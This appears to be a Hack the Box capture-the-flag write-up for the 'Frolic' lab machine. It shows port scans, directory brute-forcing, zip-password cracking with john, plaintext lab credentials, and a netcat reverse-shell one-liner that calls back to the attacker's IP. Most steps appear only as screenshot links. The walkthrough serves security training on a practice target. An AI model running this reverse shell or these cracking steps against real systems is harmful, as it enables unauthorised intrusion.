 # Hack the Box - Frolic

```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.111 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.111
Host is up (0.18s latency).
Not shown: 65530 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
1880/tcp open  vsat-control
9999/tcp open  abyss
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/18%OT=22%CT=1%CU=42491%PV=Y%DS=2%DC=I%G=Y%TM=646608A
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=104%TI=Z%CI=I%II=I%TS=8)SEQ
OS:(SP=105%GCD=1%ISR=104%TI=Z%CI=I%TS=8)OPS(O1=M53CST11NW7%O2=M53CST11NW7%O
OS:3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=7120%W2=
OS:7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M53CNNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 81.36 seconds
```

```CSS
▶ nmap -sC -sV -p 22,139,445,1880,9999 10.10.10.111 -oN services.nmap

Nmap scan report for 10.10.10.111
Host is up (0.18s latency).          
                                          
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 877b912a0f11b6571ecb9f77cf35e221 (RSA)                                                                                                                            
|   256 b79b06ddc25e284478411e677d1eb762 (ECDSA)            
|_  256 21cf166d82a430c3c69cd738bab502b0 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
1880/tcp open  http        Node.js (Express middleware)
|_http-title: Node-RED
9999/tcp open  http        nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
Service Info: Host: FROLIC; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -1h50m24s, deviation: 3h10m31s, median: -25s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-05-18T11:18:25
|_  start_date: N/A
|_nbstat: NetBIOS name: FROLIC, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: frolic
|   NetBIOS computer name: FROLIC\x00
|   Domain name: \x00
|   FQDN: frolic
|_  System time: 2023-05-18T16:48:25+05:30

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.59 seconds
```
Discovered Open Ports:
1. **SSH Port#22**: The OpenSSH version that is running is not associated with any critical vulnerabilities, so it’s unlikely to gain initial access through this port, unless some valid credentials are found.
2. **SMB Port#139 & Port#445**: Test for "Null Session Authetication"
3. 1880
4. 9999

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/e12b346f-5558-4210-b2b4-49c186a4ed0d)
```CSS
▶ gobuster dir --url http://10.10.10.111:9999 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --extensions txt,js,php --threads 25
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/0e02e818-d46d-425c-8195-1d9ff3aa5341)


![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/7af09321-c71e-47ce-b7f6-54b97ff4e6d8)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/f1d15473-ffae-4dc0-a5d6-d270bf70a618)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/a85d3683-a8a5-4a27-8361-694d4b252040)

```CSS
Credentials: admin:superduperlooperpassword_lol
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/9240e526-17ab-45d1-8d1c-e68d93faad60)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/7591df2c-cc20-4b54-a986-4027d2568e1b)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/66a2d4e4-985d-4b70-a4df-67a7d0ef5b9f)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/8bcb57b5-b594-41d8-9474-2a6c6c330aae)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/af6f6a17-16bc-440e-b24b-1ed4e5af3922)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/e1de19ea-242f-487e-ae2e-3d6486ded4ee)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/0c2411a7-e561-4020-89f3-14742d079906)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/d3088807-2330-4199-bbc5-4abb33b23b46)

```CSS
▶ john zip.john --format=PKZIP --wordlist=/usr/share/wordlists/rockyou.txt
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/8aa73b29-8e05-43a6-9a3d-83c89d75e6df)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4b12659f-691a-442d-ba04-1b61cb9f71e4)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/1a70c288-9200-462f-97f7-608a11632cc8)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/a86a288e-db60-4fec-9774-10ef3e0d8f41)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/8877755e-9510-4fd2-9663-bfacc0568c64)

BrainFuck
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/0831fb04-a6cd-4018-be64-f7fb94837d86)

Backup
```CSS
http://10.10.10.111:9999/backup/
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/fcff568b-9959-4287-9919-41720efd1855)

```CSS
▶ curl http://10.10.10.111:9999/backup/password.txt
▶ curl http://10.10.10.111:9999/backup/user.txt
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/db20e0c1-f90f-44fa-901a-2c45d45f6556)
```CSS
Credentials - admin:imnothuman
```

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4ec5c52c-6566-4476-a9ed-f9113c153447)

PlaySMS
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/d8c1905f-b1b9-4838-8c9d-cdecb3f0feca)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/b3d935c5-d00e-41b4-8cbe-002de92210a9)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ebe89563-2a21-4379-aa88-4207a74205bd)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/08d9357f-3b64-401d-a131-54c25a58f911)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/d916d725-fc64-4882-bbf5-fa252d3d66e9)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/be43de70-9326-471d-ace4-c6730b15f331)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/cef3e540-3663-4b09-bca6-3d7c4d1df311)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/2a4267c2-c02e-4040-9def-c313c6dd0781)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/fd6a5f06-6ac8-40c5-9ba4-2cfaaa26134c)

```CSS
 rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.24 443 >/tmp/f
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/b756190e-316c-4b47-8573-5f0aee4b544e)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/5c0cf823-e7fe-4cc3-94f5-11f4862fcf2c)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/7dcb1781-c4d0-4c8c-8cdc-d77090ce4270)

